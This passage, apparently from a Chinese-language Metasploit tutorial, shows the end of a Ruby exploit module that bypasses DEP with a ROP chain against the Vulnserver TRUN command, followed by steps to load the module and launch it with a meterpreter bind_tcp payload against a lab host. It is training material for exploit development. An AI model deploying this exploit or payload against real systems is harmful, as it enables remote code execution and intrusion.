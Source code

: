 ```
      0x90909090,  # nop
      0x60fe4479,  # PUSHAD # RETN [hnetcfg.dll] 
    ].flatten.pack("V*")

    return rop_gadgets

  end
  
  def exploit
    connect
    rop_chain = create_rop_chain()
    junk = rand_text_alpha_upper(target['Offset'])
    buf = "TRUN ." + junk + rop_chain + make_nops(16) + payload.encoded + '\r\n'
    sock.put(buf)
    handler
    disconnect
  end
  
end
```

其中，def create_rop_chain()方法就是从第8步创建的rop_chains.txt文件中复制来的。

## 上传脚本dep_attack_by_binghe.rb

将脚本dep_attack_by_binghe.rb上传到Kali的/usr/share/metasploit-framework/modules/exploits/windows/masteringmetasploit目录下。

## 关闭ImmunityDebugger重新启动Vulnserver

在靶机上关闭ImmunityDebugger并重新启动Vulnserver。

![img](https://img-blog.csdnimg.cn/20190117130049549.png)

## 在Kali上执行

```
msfconsole
use exploit/windows/masteringmetasploit/dep_attack_by_binghe 
set payload windows/meterpreter/bind_tcp
set RHOST 192.168.109.141
show options
exploit
ifconfig
```

具体操作如下：

```
msf > use exploit/windows/masteringmetasploit/dep_attack_by_binghe 
msf exploit(windows/masteringmetasploit/dep_attack_by_binghe) > set payload windows/meterpreter/bind_tcp
payload => windows/meterpreter/bind_tcp
msf exploit(windows/masteringmetasploit/dep_attack_by_binghe) > set RHOST 192.168.109.141
RHOST => 192.168.109.141
msf exploit(windows/masteringmetasploit/dep_attack_by_binghe) > show options

Module options (exploit/windows/masteringmetasploit/dep_attack_by_binghe):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST  192.168.109.141  yes       The target address
   RPORT  9999             yes       The target port (TCP)

```